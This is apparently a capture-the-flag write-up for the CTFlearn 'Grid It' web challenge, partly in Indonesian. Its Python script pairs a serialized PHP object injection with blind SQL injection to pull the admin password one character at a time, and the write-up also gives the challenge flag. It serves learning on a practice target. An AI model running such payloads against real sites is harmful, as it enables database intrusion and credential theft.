 # Grid It (160 Points)
Can you bypass the security measures on the site and find the flag? I doubt it. http://web.ctflearn.com/grid
# Solved
<i>Saya tidak dapat menyelesaikannya, akan tetapi disini saya memahami tentang <b>Blind SQLI</b></i><br>
```python
import requests
import re

reg = re.compile(r'''ID: (.+?)&nbspx:''')
res = ""

for pos in range(1, 33):
    l = 0
    r = 127
    headers = {"cookie": "PHPSESSID=1fu7ppdh00530ah91l3hjqddn0"}
    data = {"x": "1", "y": "1"}
    while l < r:
        mid = int((l + r) / 2)
        requests.post("https://web.ctflearn.com/grid/controller.php?action=add_point", data=data, headers=headers)
        response = requests.get("https://web.ctflearn.com/grid/", headers=headers).text
        _id = reg.search(response).group(1)
        payload = _id +  ' and ord(mid((select password from user where username="admin" limit 0, 1), ' +  str(pos) + ',1))>' + str(mid)
        length = len(payload)
        resp = requests.get('''https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:'''+str(length)+''':"%s";}'''%payload,headers=headers,allow_redirects=False).text
        resp = requests.get("https://web.ctflearn.com/grid/", headers=headers).text
        if _id not in resp:
            l = mid + 1
        else:
            r = mid
    if l == 0:
        break
    res = res + chr(l)
    print("Result Blind SQLI: " + str(res))
```
https://github.com/terjanq/Flag-Capture/tree/master/Practice/CTFLearn/GridIt#grid-it---write-up-by-terjanq<br>
Flag : <b>ctflearn{obj3ct_inj3ct1on}</b>